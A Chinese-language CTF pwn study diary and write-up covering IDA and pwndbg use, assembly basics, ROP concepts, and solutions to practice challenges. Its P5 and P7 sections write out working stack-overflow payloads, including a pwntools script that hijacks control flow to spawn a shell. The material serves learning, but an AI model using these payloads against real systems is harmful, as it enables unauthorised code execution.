# 一编
10月19号

完成题目：P1

10月20号

学习内容：阅读IDA注释，阅读pwndbg崩溃上下文

10月21号

完成题目：P5

10月22-10月23号

学习内容：做题卡顿，决定重新整理一下知识点 ，把前面所学的零碎知识串在一起(hello-ctf的“汇编语言、常见保护、栈上数组越界&溢出”三个章节)

完成题目：P6

10月24号：

完成题目：P7

10月25号：

学习内容：hello-ctf的ROP章节


碎碎念：逐渐感受到了pwn的难度，前面对栈的理解也会在真正动手时暴露出不足。因为从来没有接触过相关内容，再加上全英文的工具，导致在卡住时要花费很多的时间去知道出了什么问题？出在哪？怎么解决？原理又是什么？最后还要去记住它。要说劝退那还不至于，但是时间紧张还是会带来压力，总担心自己学的太慢或者没有学透。

# 学习内容
## 读 IDA 注释
- 伪代码变量后的 [rbp-Xh]：变量距 rbp 的偏移，包含了对齐填充

- 偏移 = X + 8（64 位）/ +4（32 位）

- 若无注释，按tab切汇编窗口，看 sub rsp, N 和 lea rax, [rbp-Xh]

    Shift+F12 找字符串交叉引用看谁用了它，o=数据引用，p=call 跳转

    Functions 窗口抄函数地址
## 读 pwndbg 崩溃上下文
RIP 死在哪=诊断核心：0x414141=偏移错；libc 大地址=劫持成功但栈没对齐（垫 ret）；没崩=没触发

fault 类异常保持执行前状态：rsp 没动，[rsp] 就是尺子刻度

x/8gx $rsp 看 8 字节格；x/8xb $rsp 看单字节（g=8字节格，b=单字节，x=十六进制）

面板字符串会吞首字符——查刻度只信 x/8xb 的真实字节

查出来的偏移必须过对齐校验，过不了就是读错了

IDA+地址算术+cyclic实测，一致才动手写 payload。

## 汇编指令

mov：把数据从一个寄存器/内存复制到另一个寄存器/内存。

lea：计算有效地址，常用来把某个地址（如字符串地址）装入寄存器。

push：把一个值压入栈顶（栈指针减 8 后写入值）。

pop：把栈顶的值弹出并放回寄存器。

call：调用函数，先将返回地址（rip）压栈，再跳转到目标函数。

ret：从函数返回，把栈顶保存的返回地址弹回 rip。

add：加法指令，如 add eax, edx 表示 eax = eax + edx。

sub：减法指令，如 sub eax, edx 表示 eax = eax - edx。

cmp：比较两个值（相当于做减法但不保存结果），并据此设置标志位。

jmp：无条件跳转到目标地址，常与 cmp/标志位配合实现循环和分支。

mul：乘法指令，完成乘法运算。

div：除法指令，完成除法运算。

## 保护与绕过

开局checksec心里就有个数，知道有哪些可能的解题方向

## 64/32位的传参规则

64 位前六参依次进 RDI → RSI → RDX → RCX → R8 → R9，32 位全部压栈、从右往左。

## ROP
- 什么是ROP？

  ROP通过精心布局栈上的地址来完成复杂逻辑的跳转，而不只是局限于前面所做的跳转至“后门函数”。

用一个示例加深理解

  ```push 233```

  ```call foo```

  ```nop```

  进行覆写就可以让ret返回时跳转到system的地址，同时那个空白可以再用于串上下一个函数
  

- **ret2xxx系列**
1. ret2text

    前几天做的那种

2. ret2libc

    多一步泄漏动态链接库的基地址


3. ret2shellcode

    提前向可写且可执行的内存写入shellcode，然后再通过控制返回地址使程序执行 shellcode


4. ret2syscall

    呃他怎么不讲


# WP
## P1


- 查看伪代码，发现关键信息

**__int16 v1**：16位有符号整数，范围为 -32768 ~ +32767，超过就从-32768开始

**scanf**输入长度不作限制

```unsigned __int64 func()
{
  __int16 v1; // [rsp+2h] [rbp-Eh]
  int v2; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = 0;
  while ( 1 )
  {
    v2 = 0;
    __isoc99_scanf(a1: &unk_2008, a2: &v2);
    if ( v2 <= 0 )
      break;
    if ( ++v1 < 0 )
    {
      puts(s: "You got it!\n");
      system(command: "cat flag");
    }
  }
  puts(s: "You can only input positive number!\n");
  return v3 - __readfsqword(0x28u);
}
```

- 编写exp



- 成功




## P5
- 检查保护，发现没有canary和PIE
- IDA五看拿到关键信息：backdoor后门函数地址0x4011CA
- 翻阅IDA注释，估计偏移量:100h+8=108h,即264

- 使用cyclic实测

```cyclic 300 > pattern.txt```
**300**的选择有讲究：既要大于前面计算的草稿，又要小于read的上限140h（十进制320）

```gdb ./ret2text2```

``` r < pattern.txt```

- 程序崩溃了

RSP = 0x7fffffffdd38

RSI = 0x7fffffffdc30（buf的起点，尺子的0字节）

二者之差正好是**264**


- 尝试写payload


失败了，应该是堆栈平衡的问题，少了一次pull的pop。塞一个ret，让它pop一次来对齐

```ROPgadget --binary ./ret2text2 | grep ": ret"```

- 进行payload的修改

```payload = b'A' * 264 + p64(0x000000000040101a) + p64(0x4011CA)```

- 再次溢出，成功了

### 过程中遇到的问题
1. 尺子造短了

现象：造了 200 字节的尺子，但草稿偏移是 264
原因：尺子长度<偏移量导致到不了返回地址，程序根本不崩溃，什么都量不到

因此，尺子必须比草稿长（264 草稿造 300）；也别超程序一次读取上限（read 的 0x140）

2. 实测和草稿差 1 字节

现象：草稿264，cyclic -l 'aacr' 查出 265

排查第一步：偏移必须是 8 的倍数（buf 起点和返回地址格子都是 8 对齐）

排查第二步：x/8xb $rsp 看真实字节 = 71 61 61 63... = 'qaac' 开头；尺子 [264:272] = 'qaacraac'，完全一致

原因：pwndbg 崩溃面板的字符串显示吞了首字符 'q' ，照抄 'aacr' 查出 265

3. gdb 验尸定案
操作：payload 写文件 → gdb 喂 → 看 RIP 死在哪里

结果：RIP 死在 libc 大地址（0x7ffff7...）

推理：能进 libc 深处的 system，只能是从 backdoor 进去的，backdoor 只能是被 payload 弹进去的 → 劫持成功，但崩在 system 内部 = 堆栈平衡

4. 垫 ret gadget 修复

原理：劫持路径比正常 call 少了 push 那一下，栈差 8 字节不对齐，system 里 movaps 崩溃；每垫一个 ret 多 pop 一次（rsp+8），凑齐 16 的倍数

## P6
大体流程与P5很接近，主要写一下不同之处。
- 最初看到gift以为就是后门地址，卡半天之后发现了fun才是真正的后门

lea rdi, "system('/bin/sh')"和call execve@plt           ; execve("/bin/sh", ["/bin/sh", NULL], NULL)的区别：

前面是打印system('/bin/sh')，后面才是真正调用system。。

- ida里找不到想要的注释，尝试使用前面学习的办法：

      若无注释，按tab切汇编窗口，定位到overflow函数看sub rsp,N

      找 call _gets 这一行，往上看它前面一两行

      

  或者跳过打草稿阶段，直接使用cyclic找精确的距离

## P7
- 先查保护，发现是32位架构，这与前面做题的都不一样

- 寻找后门函数，但是找不到/bin/sh，read是突破口


提取信息：
1. 栈帧是 0x28：[esp+Ch] 和 [ebp-1Ch] 指向同一地址，说明 esp = ebp - 0x28。
2. buf 的位置和大小：buf[28] 在 ebp-0x1C，占 28 字节；它前面的 12 字节是编译器对齐用的 padding，不是缓冲区。
3. buf 到返回地址的偏移是 0x20：0x1C + 4 = 32 字节。
4. 第一个read中buf前面的：：指的是全局变量，在.bss段，后一个read的buf是栈上的局部buf
 


- 找要用到的几个地址：read=0x080483B0，system=0x080483D0，bss=0x804a040


- 编尺子进行实测

  生成尺子```pwn cyclic 100```

  gdb里跑ret2text3,第一次输AAAA，第二次粘贴尺子
  
  看崩溃```EIP  0x61616169 ('iaaa')```
  
  反查：```cyclic -l 0x61616169```,得到实测偏移32

- 编写exp
```from pwn import *
context(arch='i386',os='linux',log_level='info')
p = process('./ret2text3')
payload = b'A' * 32 + p32(0x080483D0) + p32(0xdeadbeef) + p32(0x0804A080)
p.recvuntil(b'please tell me your name')
p.sendline(b"/bin/sh")
p.recvuntil(b"now it's your play time~")
p.sendline(payload)
p.interactive()
```
成功了

### 过程中遇到的问题
超级多问题。。。

1. 32 位程序跑不起来（cannot execute: required file not found）但文件明明在。

根因：报的不是程序，是程序点名的 32 位动态加载器 /lib/ld-linux.so.2 没装

2. read/system 在 Functions 窗口出现两次

.plt 段的才是跳板（Length=6，真代码）；extern 段是 GOT 格子（Length=4，存真身地址的数据）

3. 尺子喂进去程序正常退出，没崩

根因：第一个read写的是全局变量&::buf（:: = IDA 里全局的意思，住 bss 段），尺子全被它吃了，没碰栈；而真正的栈溢出在第二个read
## P8
- 查保护
